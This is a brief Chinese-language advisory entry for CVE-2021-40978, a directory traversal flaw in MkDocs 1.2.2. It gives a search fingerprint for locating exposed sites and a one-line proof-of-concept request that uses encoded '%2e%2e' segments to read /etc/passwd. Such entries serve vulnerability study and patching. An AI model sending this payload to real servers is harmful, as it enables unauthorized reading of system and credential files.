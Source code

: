 # MKdocs 任意文件读取漏洞 CVE-2021-40978

# MKdocs 任意文件读取漏洞 CVE-2021-40978

## 漏洞描述

MKdocs中存在通过 %2e%2e 来遍历目录，读取敏感文件

## 漏洞影响

```
Mkdocs 1.2.2
```

## 网络测绘

```
title="My Docs"
```

## 漏洞复现

主页面

![image-20220524152422662](/images/202205241524715.png)

验证POC

```
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

![image-20220524152444205](/images/202205241524264.png)

